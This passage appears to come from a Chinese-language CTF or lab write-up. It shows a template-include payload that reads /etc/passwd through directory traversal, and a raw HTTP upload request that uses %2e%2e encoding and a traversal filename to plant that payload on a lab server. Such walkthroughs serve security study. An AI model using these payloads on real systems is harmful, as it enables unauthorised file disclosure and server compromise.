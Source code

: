 ![图片](assets/1701827499-65fa90656d202b57a3c29df46ae53970.png "null")

image.png

所以，我们编写一个hello.html，并将其打包为admin.zip

```plain
#include("../../../../../../../../../../../../../etc/passwd")
```

![图片](assets/1701827499-c2478824c6ebb5e5d7986fa40b00285d.png "null")

image.png

由于python的request会自动对%2e做解码和路径归并，BurpSuite的Paste from file经常出现文件内容损坏，所以这里选择使用Yakit发送：

```plain
POST /index/%2e%2e/admin/upload HTTP/1.1
Host: 192.168.59.190:32781
Content-Length: 184
Content-Type: multipart/form-data; boundary=------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn

--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn
Content-Disposition: form-data; name="file"; filename="../template/admin.zip"

{{file(/path/to/admin.zip)}}
--------------------------AgbYfFaagxYfgukTWgbjdFUizVgtnOrqnpGiRFkn--
```
